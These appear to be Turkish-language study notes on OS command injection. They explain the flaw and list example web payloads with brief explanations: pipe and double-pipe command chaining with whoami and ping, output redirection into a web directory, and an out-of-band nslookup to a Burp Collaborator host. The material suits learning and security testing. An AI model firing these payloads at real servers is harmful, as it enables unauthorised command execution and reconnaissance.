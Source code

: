 # OS Command Injection

- OS Command Injection (Komut Enjeksiyonu), bir saldırganın bir web uygulamasının sistem komutlarını çalıştırmasına izin veren bir güvenlik açığıdır. Bu açık, web uygulamasının kullanıcı girdilerini doğrulamaması veya filtrelememesi nedeniyle ortaya çıkar. Kullanıcı girişi, bir sistem komutunu tetikleyecek şekilde manipüle edilebilir, bu da saldırganın sunucunun işletim sistemini kontrol etmesine olanak tanır.

###### Stock Güncelleme
- `productId=4&storeId=1|whoami`
- Bu istek, `storeId` parametresine `|whoami` komutunu ekliyor. `|` karakteri, bir komutun çıktısını başka bir komuta yönlendiren bir operatördür. Eğer sunucu bu parametreyi düzgün filtrelemezse, `whoami` komutu çalıştırılır ve sistemin hangi kullanıcı altında çalıştığı belirlenir.

###### Feedback Gönderme
- `email=x||ping+-c+10+127.0.0.1||&`
- Burada, `email` parametresine `||ping -c 10 127.0.0.1` eklenmiş. `||` karakteri, önceki komutun çıktısını yok sayarak yeni bir komut çalıştırır. Bu örnekte, `ping` komutu çalıştırılır ve hedef IP adresine ping gönderilir. Bu tür bir saldırı, sunucuda ağ testi yapmak veya sistemdeki zayıflıkları keşfetmek için kullanılabilir.

- `email=||whoami>/var/www/images/output.txt||&`
- Bu istekte, `whoami` komutunun çıktısı, `output.txt` dosyasına yönlendirilmiştir. Eğer sunucu, kullanıcı girdisini düzgün şekilde kontrol etmezse, bu komut çalıştırılabilir ve sistemdeki kullanıcı adı gibi hassas bilgiler `output.txt` dosyasına yazılabilir.

###### DNS Sorgulaması ile OS Command Injection
- `email=x||nslookup+x.BURP-COLLABORATOR-SUBDOMAIN||&`
- Burada, `email` parametresine `||nslookup+x.BURP-COLLABORATOR-SUBDOMAIN` eklenmiş. `nslookup` komutu, DNS sorgusu yapmak için kullanılır. Bu örnekte, `BURP-COLLABORATOR-SUBDOMAIN` yerine, Burp Suite Collaborator alt alan adı belirtilmiştir. Bu, saldırganın hedef sistemden dışarıya doğru DNS sorgusu yapmasını sağlar ve genellikle hedef sunucunun hangi dış sunuculara sorgu gönderdiğini öğrenmek için kullanılır.